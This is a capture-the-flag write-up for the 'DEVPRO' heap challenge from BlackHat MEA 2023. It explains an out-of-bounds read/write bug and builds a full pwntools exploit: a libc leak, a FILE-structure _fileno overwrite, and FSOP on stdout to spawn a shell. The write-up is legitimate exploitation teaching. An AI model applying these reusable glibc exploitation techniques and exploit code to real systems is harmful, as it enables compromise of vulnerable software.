


## DEVPRO

was a challenge from BlackHat MEA CTF Finals 2023.

a very interesting challenge from ptr-yudai.

------

### 1 - The challenge setup

The source code was provided, so no reversing effort was needed. Here is the source code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <unistd.h>

size_t g_size = 0;
unsigned char *g_buf = NULL;
FILE *g_dev = NULL;

int getint(const char *msg) {
  int val;
  printf("%s", msg);
  if (scanf("%d%*c", &val) != 1)
    exit(1);
  return val;
}

void open_device() {
  if (g_dev) {
    puts("[-] Device already open");
    return;
  }

  puts("Which device to open?\n"
       "1. /dev/urandom\n"
       "2. /dev/null\n"
       "3. /dev/zero");
  switch (getint("> ")) {
    case 1: g_dev = fopen("/dev/urandom", "rb+"); break;
    case 2: g_dev = fopen("/dev/null", "rb+"); break;
    case 3: g_dev = fopen("/dev/zero", "rb+"); break;
    default: puts("[-] Invalid choice"); return;
  }

  setvbuf(g_dev, NULL, _IONBF, 0);
  puts("[+] OK");
}

void close_device() {
  if (!g_dev) {
    puts("[-] No device opened");
    return;
  }

  fclose(g_dev);
  g_dev = NULL;
  puts("[+] OK");
}

void read_device() {
  if (!g_dev) {
    puts("[-] No device opened");
    return;
  } else if (!g_buf) {
    puts("[-] No buffer allocated");
    return;
  }

  fread(g_buf, 1, g_size, g_dev);
  for (size_t i = 0; i < g_size; i++)
    printf("%02x ", g_buf[i]);
  putchar('\n');
  puts("[+] OK");
}

void write_device() {
  unsigned char c;
  if (!g_dev) {
    puts("[-] No device opened");
    return;
  }

  printf("Data: ");
  for (size_t i = 0; i < g_size; i++) {
    if (scanf("%02hhx", &c) != 1)
      break;
    fwrite(&c, 1, 1, g_dev);
  }
  puts("[+] OK");
}

void alloc_buffer() {
  g_size = getint("Size: ");
  if (g_size > 0x400) {
    puts("[-] Size too big");
    return;
  }

  if (g_buf)
    free(g_buf);
  g_buf = (unsigned char*)malloc(g_size);
  memset(g_buf, 0, g_size);
}

int main() {
  puts("1. Open device\n"
       "2. Allocate buffer\n"
       "3. Read device\n"
       "4. Write device\n"
       "5. Close device");
  while (1) {
    switch (getint("> ")) {
      case 1: open_device(); break;
      case 2: alloc_buffer(); break;
      case 3: read_device(); break;
      case 4: write_device(); break;
      case 5: close_device(); break;
      default:
        return 0;
    }
  }
}

__attribute__((constructor))
void setup(void) {
  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stdout, NULL, _IONBF, 0);
  setvbuf(stderr, NULL, _IONBF, 0);
}
```

the challenge display these options to the player:

```sh
1. Open device
2. Allocate buffer
3. Read device
4. Write device
5. Close device
```

let's go through each option quickly:

1 - **Open device**, allows you to open one of these three devices: `/dev/urandom`, `/dev/null` and `/dev/zero` in "rb+" mode which is basically read/write mode, device FILE descriptor is stored in global var `g_dev`.

> - `/dev/urandom`: Provides an interface to a secure pseudo-random number generator.
> - `/dev/null`: Represents a null device, discarding all data written to it.
> - `/dev/zero`: Yields an infinite stream of null bytes when read; writing to it discards the data.

2 - **Allocate buffer**, allows you to allocate with `malloc` one buffer up to 0x400 bytes, its address is stored in the `g_buf`global var, and its size is stored in `g_size` global var

3 - **Read device**, allows you to read `g_size` bytes from `g_dev`device into allocated buffer pointed by `g_buf`, and after reading it will dump the data read as hexadecimal.

4 - **Write device**, allows to write up to `g_size` bytes passed as hexadecimal values into the device opened. Looks useless at first as basically `/dev/urandom`, `/dev/null` and `/dev/zero` just ignored any data written to them.

5 - **Close device**, close the device opened, and zero the `g_dev`global var

------

### 2 - The vulnerabilities

The main vulnerability is in `alloc_buffer()`function:

```c
void alloc_buffer() {
  g_size = getint("Size: ");		// update g_size to the user requested size
  if (g_size > 0x400) {
    puts("[-] Size too big");
    return;
  }

  if (g_buf)
    free(g_buf);
  g_buf = (unsigned char*)malloc(g_size);
  memset(g_buf, 0, g_size);
}
```

if the requested size is bigger than 0x400, the buffer will not be freed and re-allocated, but the `g_size` global var will still be updated to the user requested size, and function will return.

So after this, when we will use `read_device()` and `write_device()` functions, the updated size will be used on an buffer of a smaller size, that will lead to an `oob` read or write. The read & write functions does not check if the size is correct, and believe blindly in `g_size`value.

------

### 3 - So.. what's the plan ?

Ok, we have a `oob` read and write,  but we can only read zeroes or random data or nothing, as `/dev/null` actually returns nothing..

So what we can do now?  let's check first program protections:

```sh
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    SHSTK:    Enabled
    IBT:      Enabled
```

#### 1 - let's leak

Ok, `PIE` is in place, so first we will need a leak, but that is easy. For this we can:

- allocate a 0x400 chunk
- open the null device, its `FILE` structure will be allocated on heap after our chunk, as a chunk of 0x1e0 size.
- allocate a 0x500 chunk, that one will fail, but will update `g_size`to 0x500
- call `read_device()` function, that will try to read 0x500 from /dev/null, and will dump the 0x500 bytes starting at the address of our 0x400 sized chunk, and will dump the beginning of the `FILE` structure just next our chunk.

it works because:

> Reading from `/dev/null` in Linux always returns end-of-file (EOF), regardless of the number of bytes you try to read. This is because `/dev/null` is a special file that discards all data written to it and reports an end-of-file condition when read.
>
> If you attempt to read 0x500 (or 1280 in decimal) bytes from `/dev/null` using the `fread` function in C, it will return 0, indicating that no bytes were successfully read. The end-of-file condition is encountered immediately, and no data is actually read from `/dev/null`.

and it works also because `read_device()` does not check for bytes read by `fread` before dumping data.

ok the leak was easy, the next part is more tricky.

#### 2 - bypass our limitations

the `read_device()` function actually read data from the device, so with our `oob` vuln we could write over the `FILE`structure just after our 0x400 chunk, but we can only write zeroes or random data..

so what can we do with that? let's check the heap state 

in this picture you can see the 0x400 chunk that starts at 0x56490441e2a0 (part filled with only zeroes are not displayed)

then at 0x56490441e6b0 start the `FILE` structure from our device opened.

we can check `FILE` structure content in `gef` too:



looking at the `FILE` structure buffer addresses carefully, you can see that it is using a 1 byte buffer, located inside the `FILE` structure at address `0x56490441e733` and ending at `0x56490441e734`, so there is no buffering, as soon as something is written, it is discarded.

now if we open `/dev/zero`device, and that we set the size of `g_size` to 0x439, we will overflow on `FILE` structure by 0x29 bytes (0x39 minus the 0x10 chunk header), and we can set the LSB of `_IO_write_ptr`to zero, that will expand down the write buffer from `0x56490441e700` to `0x56490441e734`

That is interesting because now the data that we will write to the current opened device, will be written in this data buffer, before being discarded, and that zone will start at the position of the `_IO_backup_base` entry up to the 0x33 bytes next..

That's interesting because we are able to overwrite the `_fileno`entry which point the real file descriptor of our opened device. In our case its value is `3` which is the last file descriptor opened. But if we overwrite it, and change it to 0, when we will read from the device, it will read from `stdin`instead of `/dev/zero`, and now we will be able to read something more useful than simply zeroes...

we will do it with the `write_device()`function, and we will took care of restoring the `_chain`entry before `_fileno` like this:

```python
write( p64(0)*3+p64(libc.sym['_IO_2_1_stderr_'])+p8(0) )  # last p8(0) is _fileno
```

so what's the result of the `_fileno`modification:

> now when we will call `read_device()`, we will be able to control the data that we will write oob over the `FILE` structure chunk, as it will be read from `stdin` and not from an useless device.

#### 3 - abusing of FILE structure

Ok, now, we can forge totally the `FILE` structure, and we are gonna change it to a controlled write primitive.

let's look at this part of the exploit:

```python
# this payload will change the buffer addresses in file structure to use it as a write primitive
# we will write over stdout in libc like this
payload = b'\x00'*0x408+p64(0x1e1)+p64(0x5fbad2483)+p64(0)*4+p64(libc.sym['_IO_2_1_stdout_'])+p64(libc.sym['_IO_2_1_stdout_']+232)*2+p64(libc.sym['_IO_2_1_stdout_']+233)
print('len = '+str(len(payload)))
# failed alloc to modify size to the size of our payload
alloc(len(payload))
# write payload (yes a read is a write in this case)
read()
p.send(payload)
```

We are now modifying the `FILE` structure to make its write buffers point to libc stdout (`_IO_2_1_stdout_`)

like this we will be able to use FSOP on stdout to get code execution.

If you don"t know what is FSOP have a look to my previous write-up:

[https://github.com/nobodyisnobody/docs/tree/main/code.execution.on.last.libc#3---the-fsop-way-targetting-stdout](https://github.com/nobodyisnobody/docs/tree/main/code.execution.on.last.libc#3---the-fsop-way-targetting-stdout)

so we forge a FSOP like this:

```python
# some constants
stdout_lock = libc.address + 0x21ba70   # _IO_stdfile_1_lock  (symbol not exported)
stdout = libc.sym['_IO_2_1_stdout_']
fake_vtable = libc.sym['_IO_wfile_jumps']-0x18
# our gadget
gadget = libc.address + 0x0000000000163830  # add rdi, 0x10 ; jmp rcx

fake = FileStructure(0)
fake.flags = 0x3b01010101010101
fake._IO_read_end=libc.sym['system']            # the function that we will call: system()
fake._IO_save_base = gadget
fake._IO_write_end=u64(b'/bin/sh\x00')  # will be at rdi+0x10
fake._lock=stdout_lock
fake._codecvt= stdout + 0xb8
fake._wide_data = stdout+0x200          # _wide_data just need to points to empty zone
fake.unknown2=p64(0)*2+p64(stdout+0x20)+p64(0)*3+p64(fake_vtable)

# write our fake stdout over the real one
write( bytes(fake))
```

and at the end write it over the `FILE` structure, and we will get instant shell...finish !

### 4 - The final exploit

here is the final exploit commented

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
context.update(arch="amd64", os="linux")
context.log_level = 'info'

exe = ELF("devpro_patched")
libc = ELF("./libc.so.6")

# shortcuts
def logbase(): log.info("libc base = %#x" % libc.address)
def logleak(name, val):  log.info(name+" = %#x" % val)
def sa(delim,data): return p.sendafter(delim,data)
def sla(delim,line): return p.sendlineafter(delim,line)
def sl(line): return p.sendline(line)
def rcu(d1, d2=0):
  p.recvuntil(d1, drop=True)
  # return data between d1 and d2
  if (d2):
    return p.recvuntil(d2,drop=True)

host ,port = 'blackhat.flagyard.com','31704'
if args.REMOTE:
  p = remote(host,port)
else:
  p = process([exe.path])

def open(idx):
  sla('> ', '1')
  sla('> ', str(idx))

def close():
  sla('> ', '5')

def alloc(size):
  sla('> ', '2')
  sla('Size: ', str(size))

def read():
  sla('> ', '3')

def write(data):
  sla('> ', '4')
  sla('Data: ', enhex(data)+'-')

def leakpos(pos):
  for i in range(pos):
    p.recv(3)
  leak = 0
  for i in range(8):
    leak += (u8(unhex(p.recv(2))))<<(i*8)
    p.recv(1)
  return leak

# first we alloc a 0x400 chunk
alloc(0x400)
# open null device
open(2)
# alloc 0x500 chunk (will fails,but will modifiy size)
alloc(0x500)
# oob read of file structure after our 0x400 chunk (will leak libc addresses)
read()
# got our leak & calculate libc base
leak = leakpos(1144)
logleak('leak',leak)
libc.address = leak-0x21a6a0
logbase()

# close device
close()
# open zero device (this one spits zeroes)
open(3)
# try to alloc 0x439 bytes (will fails,but will modifiy size), 
# overwrite with zeroes beginning of file structure
# that will zero the lsb of buffer base where data is stored when writing, 
# and will permit you to write data inside the file structure
alloc(0x439)
read()
# modify the file structure to overwrite the filedescriptor entry to zero
# now it will read input from stdin, instead of an useless device
write( p64(0)*3+p64(libc.sym['_IO_2_1_stderr_'])+p8(0) )

# this payload will change the buffer addresses in file structure to use it as a write primitive
# we will write over stdout in libc like this
payload = b'\x00'*0x408+p64(0x1e1)+p64(0x5fbad2483)+p64(0)*4+p64(libc.sym['_IO_2_1_stdout_'])+p64(libc.sym['_IO_2_1_stdout_']+232)*2+p64(libc.sym['_IO_2_1_stdout_']+233)
print('len = '+str(len(payload)))
# failed alloc to modify size to the size of our payload
alloc(len(payload))
# write payload (yes a read is a write in this case)
read()
p.send(payload)

# from this point what we write will be written in stdout
# so we will prepare a FSOP payload
# https://github.com/nobodyisnobody/docs/tree/main/code.execution.on.last.libc#3---the-fsop-way-targetting-stdout

# some constants
stdout_lock = libc.address + 0x21ba70   # _IO_stdfile_1_lock  (symbol not exported)
stdout = libc.sym['_IO_2_1_stdout_']
fake_vtable = libc.sym['_IO_wfile_jumps']-0x18
# our gadget
gadget = libc.address + 0x0000000000163830  # add rdi, 0x10 ; jmp rcx

fake = FileStructure(0)
fake.flags = 0x3b01010101010101
fake._IO_read_end=libc.sym['system']            # the function that we will call: system()
fake._IO_save_base = gadget
fake._IO_write_end=u64(b'/bin/sh\x00')  # will be at rdi+0x10
fake._lock=stdout_lock
fake._codecvt= stdout + 0xb8
fake._wide_data = stdout+0x200          # _wide_data just need to points to empty zone
fake.unknown2=p64(0)*2+p64(stdout+0x20)+p64(0)*3+p64(fake_vtable)

# write our fake stdout over the real one
write( bytes(fake))

# enjoy shell
p.interactive()
```

*nobodyisnobody, still hacking things...*